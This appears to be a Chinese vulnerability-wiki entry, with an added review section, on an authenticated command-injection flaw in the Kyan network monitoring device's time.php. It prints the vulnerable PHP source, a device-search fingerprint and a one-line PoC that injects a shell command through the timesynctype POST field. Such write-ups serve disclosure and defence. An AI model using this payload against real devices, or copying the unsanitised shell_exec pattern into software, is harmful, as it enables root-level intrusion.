

# Kyan 网络监控设备 time.php 远程命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Kyan网络监控平台
- 本文讨论：time.php timesynctype/ctime shell注入
- 版本、权限与配置前提：明确auth_check且user_is_admin；Linux bashsuid；版本缺
- 资料类型：管理员时间设置命令注入源码；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介只说认证而源码要求管理员，应强化角色前提
- 正文PoC仅timesynctype，ctime同sink是补充分析不等于已验证；无修复
- 设置系统时间可能有业务副作用

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据
- 时间/NTP 设置会改变设备时钟及同步配置，可能影响日志、证书和业务；需记录原值并在隔离实验后恢复

### 待核与来源

- 固件/权限和ctime变体待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

Kyan 网络监控设备 time.php 可在身份验证的情况下执行任意命令, 配合账号密码泄露漏洞，可以获取服务器权限，存在远程命令执行漏洞

## 漏洞影响

```
Kyan
```

## 网络测绘

```
app="Kyan设计"
```

## 漏洞复现

登录页面如下


存在漏洞的文件: `/time.php`

```
<?php
require_once 'functions.php';
require_once 'international.php';

session_start();
auth_check();

//showHeader('Route', array('table.css'));
if($_SERVER['REQUEST_METHOD'] == 'POST')
{
	if(!user_is_admin())
	{
		showErrMessage("permission denied");
		exit;
	}
	$timesynctype = $_POST["timesynctype"];
	if($timesynctype!="client")
	{
		$output = shell_exec("/bin/bashsuid -p -c \"/usr/sbin/ntpdate " .$timesynctype. "\"");
		showMessage($output);		
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}else
	{
		$ctime = $_POST["ctime"];
		shell_exec("/bin/bashsuid -p -c \"date " .$ctime. "\"");
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}
}
        echo "<html xmlns=\"http://www.w3.org/1999/xhtml\">\n";
        echo "  <head>\n";
        echo "    <meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\" />\n";
        echo "    <meta http-equiv=\"Content-Style-Type\" content=\"text/css\" />\n";
        echo "    <meta http-equiv=\"Content-Script-Type\" content=\"text/javascript\" />\n";
        echo "    <link type=\"text/css\" rel=\"stylesheet\" href=\"./templates/clean.css\" title=\"PSI_Template\"/>\n";
        echo "    <title>time</title>\n";
	echo "<style type=\"text/css\">";
	echo "th, td, h3 {";
	echo "font-size: 12px;";
	echo "}";
	echo "</style>";
        echo "  </head>\n";	

//print_html_begin("time");
?>
<script language="javascript" type="text/javascript">
//因程序执行耗费时间,所以时间并不十分准确,误差大约在2000毫秒以下
var xmlHttp = false;
//获取服务器时间
try {
  xmlHttp = new ActiveXObject("Msxml2.XMLHTTP");
} catch (e) {
  try {
    xmlHttp = new ActiveXObject("Microsoft.XMLHTTP");
  } catch (e2) {
    xmlHttp = false;
  }
}

if (!xmlHttp && typeof XMLHttpRequest != 'undefined') {
  xmlHttp = new XMLHttpRequest();
}

xmlHttp.open("GET", "null.txt", false);
xmlHttp.setRequestHeader("Range", "bytes=-1");
xmlHttp.send(null);

severtime=new Date(xmlHttp.getResponseHeader("Date"));

//获取服务器日期
var year=severtime.getFullYear();
var month=severtime.getMonth()+1;
var date=severtime.getDate();
//获取服务器时间
var hour=severtime.getHours();
var minu=severtime.getMinutes();
var seco=severtime.getSeconds();
//获取客户端时间
localtime=new Date();
//取得时间差
var jtime=Math.abs(localtime.getTime()-severtime.getTime());
var jdate=jtime/(24*60*60*1000);
var jhour=jtime%(24*60*60*1000)/(60*60*1000);
var jminu=jtime%(24*60*60*1000)%(60*60*1000)/(60*1000);
var jsecond=jtime%(24*60*60*1000)%(60*60*1000)%(60*1000)/1000;

//格式化输出客户端时间
function getClientTime(){
localtime=new Date();
var cyear=localtime.getFullYear();
var cmonth=localtime.getMonth()+1;
var cdate=localtime.getDate();
var chour=localtime.getHours();
var cminu=localtime.getMinutes();
var cseco=localtime.getSeconds();

ccyear=addZero(cyear);
ccmonth=addZero(cmonth);
ccdate=addZero(cdate);
cchour=addZero(chour);
ccminu=addZero(cminu);
ccseco=addZero(cseco);

 document.getElementById("clienttime").innerHTML=ccyear+"-"+ccmonth+"-"+ccdate+" "+cchour+":"+ccminu+":"+ccseco;
 document.getElementById("ctime").value= ccmonth+""+ccdate+""+cchour+""+ccminu+""+ccyear+"."+ccseco;
}
//格式化输出服务器时间
function getSeverTime(){
  seco++;
 if(seco==60){
  minu+=1;
  seco=0;
  }
 if(minu==60){
   hour+=1;
   minu=0;
 }
 if(hour==24){ 
  date+=1;
  hour=0;
 }
//日期处理
if(month==1||month==3||month==5||month==7
||month==8||month==10||month==12)
 {
  if(date==32)
  {
   date=1;
   month+=1;
   }
 }else if(month==4||month==6||month==9||month==11){
  if(date==31){
   date=1;
   month+=1;
   }
 }else if(month==2){
   if(year%4==0&&year%100!=0){//闰年处理
    if(date==29){
     date=1;
     month+=1;
    }
   }else{
    if(date==28){
     date=1;
     month+=1;
    }
   }
 }
 if(month==13){
 year+=1;
 month=1;
 }
 sseco=addZero(seco);
 sminu=addZero(minu);
 shour=addZero(hour);
 sdate=addZero(date);
 smonth=addZero(month);
 syear=year;
 
 document.getElementById("servertime").innerHTML=syear+"-"+smonth+"-"+sdate+" "+shour+":"+sminu+":"+sseco;
 setTimeout("getSeverTime()",1000);
 setTimeout("getClientTime()",100);
}

function addZero(num) {
num=Math.floor(num);
return ((num <= 9) ? ("0" + num) : num);
}
function updatetime()
{
	return true;
}
</script>

<body onLoad="getSeverTime();">
<table style='width:500px' border='0' align='center' cellpadding='3' cellspacing='1'>
<th colspan="2"><?php echo lang_get('Timer'); ?></th>
<tr ><td align='right' width=50%><?php echo lang_get('System time')?></td><td align='left'><div id="servertime"></div></td></tr>
<tr ><td align='right'><?php echo lang_get('Client time')?></td><td align='left'><div id="clienttime"></div></td></tr>
<tr ><td colspan="2" align="center">
<form name="Form1" method="post" action=<?php echo $_SERVER['PHP_SELF']?>>
<input type="hidden" name="cdate" id="cdate" value=""/>
<input type="hidden" name="ctime" id="ctime" value=""/>
<?php echo lang_get('Sync Source');?>:
<select name="timesynctype" id="timesynctype" >
<option value="time.windows.com" selected="selected">time.windows.com</option>
<option value="time.nist.gov">time.nist.gov</option>
<?php 
/*$system_lic_file = '/mnt/licenses/system/system.dat';
$bsynctoclient=false;
if(file_exists($system_lic_file))
{
	$output = shell_exec("/bin/bashsuid -p -c \"openssl bf-cbc -K 000102030405060708090A0B0C0D0E0F -iv 0102030405060708 -d -in /mnt/licenses/system/system.dat |grep -v \"^;\"|grep Expire\"");
	if($output == "")
	{
		$bsynctoclient = true;
	}else
	{
		$bsynctoclient = false;
	}
	
}
if($bsynctoclient)
{*/
	echo "<option value=\"client\" >".lang_get('PC Client')."</option>";
/* } */

?>

</select>
<input  type="submit" name="update" id="update" value="<?php echo lang_get('Update Now');?>" />
</form>
</td></tr>
</table>
</body>
</html>
<?php
//print_html_end();
?>
```

其中需要注意的地方

```
if($_SERVER['REQUEST_METHOD'] == 'POST')
{
	if(!user_is_admin())
	{
		showErrMessage("permission denied");
		exit;
	}
	$timesynctype = $_POST["timesynctype"];
	if($timesynctype!="client")
	{
		$output = shell_exec("/bin/bashsuid -p -c \"/usr/sbin/ntpdate " .$timesynctype. "\"");
		showMessage($output);		
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}else
	{
		$ctime = $_POST["ctime"];
		shell_exec("/bin/bashsuid -p -c \"date " .$ctime. "\"");
		shell_exec("/bin/bashsuid -p -c \"hwclock --systohc\"");
	}
}
```

参数均可控，构造POC

```
POST /time.php

timesynctype=;id>2.txt
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
